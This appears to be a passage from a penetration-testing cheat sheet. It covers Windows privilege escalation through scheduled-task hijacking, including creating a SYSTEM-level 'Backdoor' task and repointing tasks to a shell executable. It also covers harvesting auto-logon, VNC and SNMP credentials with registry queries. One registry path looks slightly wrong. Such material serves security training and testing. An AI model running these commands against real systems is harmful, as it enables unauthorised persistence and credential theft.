 
#### **Scheduled Tasks Exploitation**

**What scheduled task exploitation involves:** Abusing Windows Task Scheduler misconfigurations to execute commands with elevated privileges.

**Why scheduled tasks are important:** Tasks often run with SYSTEM privileges and may have weak permissions allowing modification.

```bash
# Enumerate scheduled tasks
schtasks /query /fo LIST /v                  # Detailed task listing
schtasks /query /fo csv                      # CSV format for parsing
wmic process get caption,commandline,processid # Current running processes

# Check task permissions
icacls C:\Windows\System32\Tasks\*           # Task file permissions
# Look for tasks with weak permissions

# Identify high-privilege tasks
schtasks /query /fo LIST /v | findstr /i "system\|administrator\|highest"

# Task hijacking techniques
# 1. Modify existing task (if permissions allow)
schtasks /change /tn "TaskName" /tr "C:\temp\shell.exe"

# 2. Create new privileged task (requires admin rights)
schtasks /create /tn "Backdoor" /tr "C:\temp\shell.exe" /sc daily /ru "SYSTEM"

# 3. DLL hijacking in task executables
# If task runs executable that loads DLLs from writable locations
# Place malicious DLL in DLL search path

# Check for weak folder permissions in task paths
icacls "C:\Program Files\TaskFolder\"
# If folder is writable, can replace task executable

# Why scheduled task exploitation works:
# - Tasks often run with elevated privileges
# - Task files may have weak permissions
# - DLL hijacking opportunities in task executables
# - Persistence mechanism after privilege escalation
```

### **Windows Credential Harvesting**

**What credential harvesting involves:** Extracting plaintext passwords, hashes, and authentication tokens from compromised Windows systems.

**Why credential harvesting is crucial:** Harvested credentials enable lateral movement, persistence, and further system compromise.

```bash
# Registry credential locations
# Windows stores credentials in various registry locations

# Auto-logon credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName

# VNC passwords
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password

# SNMP community strings
reg query "HKLM\SYSTEM\Current\Services\SNMP"

```